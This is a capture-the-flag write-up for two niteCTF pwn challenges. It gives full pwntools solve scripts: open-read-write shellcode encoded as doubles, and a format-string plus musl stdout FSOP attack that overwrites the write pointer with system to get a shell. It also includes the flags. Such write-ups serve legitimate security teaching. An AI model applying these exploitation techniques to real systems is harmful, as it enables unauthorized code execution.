

# 1. ieee dancer
A binary which executes shellcode disguised as doubles
## Solution:
Decompiling the binary in *Ghidra*, we check `main()` and see a few interesting things.

First, the program allocates memory using `calloc`, and then enters a loop where it takes user input using `scanf("%lf")`. This means it expects *double-precision floating point numbers* (8 bytes).

However, immediately after the input loop, we see `mprotect()` being called on that buffer with permissions set to `7` (RWX), and the program subsequently jumps to that buffer to execute it as a function. This implies we need to provide shellcode, but disguise it as floating-point numbers.

Before execution, there is a call to `enable_seccomp()`. Looking into that function:

We see a whitelist of system calls: `open` (2), `read` (0), `write` (1), and `exit` (60). Crucially, `execve` is missing, meaning we can't pop a shell. We have to use an *ORW (Open-Read-Write)* chain to read the flag directly.

Thus, we do the following:
1. Write assembly to open "flag", read it to stack, and write it to stdout.
2. Convert that assembly to machine code bytes.
3. Pad it to be divisible by 8.
4. Pack those bytes into doubles using Python's `struct` module.

Finally, I made this script using `pwntools`:

```python
from pwn import *
import struct

host = 'dancer.chals.nitectf25.live'
port = 1337
filename = "flag"

context.arch = 'amd64'
p = remote(host, port, ssl=True)

assembly = f"""
    mov rax, 0x0067616c66
    push rax
    
    /* open(rsp, 0, 0) */
    mov rdi, rsp      
    xor rsi, rsi      
    xor rdx, rdx
    mov eax, 2        
    syscall
    
    /* read(fd, rsp, 100) */
    mov rdi, rax      
    mov rsi, rsp      
    mov rdx, 100      
    xor eax, eax      
    syscall

    /* write(1, rsp, len) */
    mov rdx, rax      
    mov rdi, 1        
    mov eax, 1        
    syscall
    
    /* exit(0) */
    mov eax, 60
    xor rdi, rdi
    syscall
"""

payload_bytes = asm(assembly)

# padding
while len(payload_bytes) % 8 != 0:
    payload_bytes += b'\x90'

# converting to float
def pack_float(chunk):
    val = struct.unpack('<d', chunk)[0]
    return "{:.20g}".format(val)

floats_to_send = []
for i in range(0, len(payload_bytes), 8):
    chunk = payload_bytes[i : i+8]
    floats_to_send.append(pack_float(chunk))

log.info(f"Generated {len(floats_to_send)} floats.")

# executing
p.recvuntil(b'enter the number of floats you want to enter!')
p.sendline(str(len(floats_to_send)).encode())

for f in floats_to_send:
    p.sendline(f.encode())

p.interactive()
```

Running the script, we get the flag.

## Flag:

`nnite{W4stem4n_dr41nss_aLLth3_fl04Ts_int0_ex3cut5bl3_sp4ce}`

## Notes:

1. The tricky part was formatting the float string correctly; using `"{:.20g}"` ensures we don't lose precision so the bytes are reconstructed exactly on the server side.
**
# 2. beating_yellow_king_with_musl_in_ng+
## Solution:
Checking the handout, we notice a `libc.so`, hence there must be something special about it and running it confirms the same: we are provided with a `Musl` libc binary not the standard `glibc`.



Next, running the binary itself shows us a simple text-based game where we can either *"Make a New Character"* or *"Defeat the Yellow King"*.

If we create a character, it asks for an index, a class (*Magician*, *Swordsman*, *Thief*), and a name. If we try to *"Defeat the Yellow King"* with these characters, we lose.

Now, [decompiling the binary](assets_pwn/ykdecomp.c) with *angr*, we look at the `make_char` function.

Here, the buffer `v3` is allocated 33 bytes (32 for name + 1 for class ID). The code reads up to 32 bytes into the name and then sets a null terminator at the index returned by `read`.

If we send exactly *32 bytes*, `read` returns 32, and the code executes `v3[32] = 0`.
This index `32` is exactly where the *Class ID* is stored. This allows us to overwrite our class (which is validated to be 1, 2, or 3) with 0 - the index for a "special" class, *D3rdlord3*.

Next, we check `action()`, where if the Class ID == 0 (which is normally impossible), it executes a block that calls `printf` directly on our input buffer.

To exploit this, we use a specific technique for Musl libc known as FSOP *(File Stream Oriented Programming)*. Unlike glibc, Musl's `FILE` struct (like `stdout`) stores function pointers directly in the structure. Specifically, the pointer to the `write` function is stored at offset `0x48` (72 bytes).

Thus, we do the following:

1. Use the format string to leak a pointer from the global `list` (at `0x404040`). In Musl `mallocng`, the heap and libc are often mapped close together, allowing us to calculate the libc base.
2. Change the flags at the start of the `stdout` structure to the string `E;sh;\x00`.
3. Overwrite the `write` function pointer (offset 72) with the address of `system`.
3. So, when `printf` tries to flush the buffer, it calls `stdout->write(stdout)`, which executes `system("E;sh;...")`.

Here is the final solve script implementing this:

```python
from pwn import *

context.binary = exe = ELF("./chall")
libc = ELF("./libc.so") # Musl libc provided

# r = process([exe.path])
r = remote("yellow.chals.nitectf25.live", 1337, ssl=True)

def make_char(idx, cl, name):
    r.sendlineafter(b">>", b"1")
    r.sendlineafter(b":", str(idx).encode())
    r.sendlineafter(b">>", str(cl).encode())
    r.sendlineafter(b">>", name)

def action(idx):
    r.sendlineafter(b">>", b"2")
    r.sendlineafter(b":", str(idx).encode())

make_char(0, 1, b"a" * 32)
action(0)

pl = b"%c" * 8 + b"%c%c%s.." + p64(0x404040)  
r.sendline(pl)

# calculate libc base from leak
libc.address = unpack(r.recvuntil(b"@@@").split(b"%%%")[1][:6], "all") - (
    0x7F3DFAB88CA0 - 0x00007F3DFAAC7000
)
log.info(f"libc @ {hex(libc.address)}")

stdout_file = libc.sym["__stdout_FILE"]

pl = b"%c" * 8 + b"%c%c%29489c%hn.." + p64(stdout_file + 1)
action(0)
r.sendline(pl)

pl = b"%c" * 8 + b"%c%c%15198c%hn.." + p64(stdout_file + 3)
action(0)
r.sendline(pl)

offset_to_system = libc.sym["system"] & (0xFFFF)

pl = b"%c" * 8 + f"%c%c%{offset_to_system - 10}c%hn..".encode() + p64(stdout_file + 72)
action(0)
r.sendline(pl)

r.interactive()
```

Running this script grants us shell access from where we can easily `cat` the flag.

## Flag:
`nite{b34TinG_yeLl0wk1ng_1n_ng+_w1thNo$$s}`
